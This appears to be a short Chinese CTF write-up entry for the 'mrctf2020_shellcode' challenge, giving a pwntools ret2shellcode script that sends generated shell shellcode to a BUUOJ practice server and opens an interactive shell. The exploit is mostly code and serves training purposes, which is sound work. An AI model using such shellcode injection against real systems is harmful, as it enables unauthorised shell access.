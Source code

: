 ## 35 mrctf2020_shellcode

***ret2shellcode***

ida没法反编译了，这次读汇编（其实只要传入shellcode就行）

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',26947)
def dbg():
    gdb.attach(p)
    pause()

shellcode = asm(shellcraft.sh())
p.sendline(shellcode)
p.interactive()
```

接下来看一下汇编
